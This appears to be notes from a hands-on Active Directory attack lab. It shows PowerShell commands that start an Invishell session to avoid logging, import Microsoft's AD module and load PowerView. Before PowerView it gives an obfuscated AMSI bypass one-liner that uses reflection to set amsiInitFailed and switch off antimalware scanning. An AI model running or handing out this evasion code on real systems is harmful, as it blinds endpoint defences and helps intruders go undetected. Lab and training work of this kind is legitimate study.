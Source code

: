 # LOAD NECESSARY POWERSHELL SCRIPTS

<p>Let's start a PowerShell session using Invishell to avoid verbose logging. We will use Microsoft's AD 
Module for solving the tasks of this Hands-On:</p>

## AD Module
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

## Powerview
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools>powershell

PS C:\AD\Tools>
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x')) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;(Get-varI`A`BLE ( ('1Q'+'2U')+'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

PS C:\AD\Tools>. C:\AD\Tools\PowerView.ps1

```
